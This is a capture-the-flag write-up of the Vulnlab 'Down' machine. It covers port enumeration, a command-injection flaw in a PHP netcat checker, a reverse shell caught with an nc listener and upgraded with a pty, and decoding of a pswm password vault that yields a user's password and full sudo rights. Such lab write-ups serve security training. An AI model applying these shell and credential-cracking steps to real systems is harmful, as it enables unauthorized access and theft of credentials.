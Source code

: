 ```yaml
---
title: Vulnlab - Down
date: 2025-01-13 02:00:00 +/-TTTT
categories: [VulnLab]
tags: [pswm]     # TAG names should always be lowercase
---
```


![img-description](/assets/images/down_slide.png)

## Enum
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL9eTcP2DDxJHJ2uCdOmMRIPaoOhvMFXL33f1pZTIe0VTdeHRNYlpm2a2PumsO5t88M7QF3L3d6n1eRHTTAskGw=
    |   256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
    |ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJwLt0rmihlvq9pk6BmFhjTycNR54yApKIrnwI8xzYx/
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
    | http-methods:
    |  Supported Methods: GET HEAD POST OPTIONS
    |_http-title: Is it down or just me?
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### Website
![img-description](/assets/images/1.png)

for understand it clearly i will try to dump index.php and analyze source code.

![img-description](/assets/images/21.png)

![img-description](/assets/images/3.png)

### analyze code

![img-description](/assets/images/2025_01_12_0me_Kleki.png)

PHP code snippet accepts ip and port parameters via a POST request when expertmode=tcp is set in the GET parameters. It validates the ip and port inputs before using them in a shell command to perform a TCP connection check using nc (netcat). However, there are several issues that can lead to security vulnerabilities and functionality concerns
## user
![img-description](/assets/images/5.png)

    ➜  down nc -nvlp 443
    listening on [any] 443 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.92.73] 49890
    ls
    index.php
    logo.png
    style.css
    user_aeT1xa.txt
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@down:/var/www/html$ export TERM=xterm
    export TERM=xterm
    www-data@down:/var/www/html$ ^Z
    [1]  + 150945 suspended  nc -nvlp 443
    ➜  down stty raw -echo;fg

    [1]  + 150945 continued  nc -nvlp 443

    www-data@down:/var/www/html$

### linpeas

    ╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)

    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files

    [SNIP]
    /var/crash/_usr_bin_pswm.33.crash

    /var/www/html/user_aeT1xa.txt

    [SNIP]

thasts look like interesting

    www-data@down:/tmp$ cat /var/crash/_usr_bin_pswm.33.crash
    ProblemType: Crash
    Date: Fri Sep  6 15:01:16 2024
    ExecutablePath: /usr/bin/pswm
    ExecutableTimestamp: 1725633898
    InterpreterPath: /usr/bin/python3.10
    ProcCmdline: python3 /usr/bin/pswm

    PermissionError: [Errno 13] Permission denied: '/var/www/.local'

https://github.com/repo4Chu/pswm-decoder

we already know location before so just dump it

    www-data@down:/home/aleks/.local/share/pswm$ ls
    pswm

### pswm

    (myenv) ➜  down python3 pswm-decoder.py
    Password: flower
    Decoded text:
    pswm    aleks   flower
    aleks@down      aleks   1uY3w22u<redacted>

## root

    aleks@down:~$ sudo -l
    Matching Defaults entries for aleks on down:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

    User aleks may run the following commands on down:
    (ALL : ALL) ALL


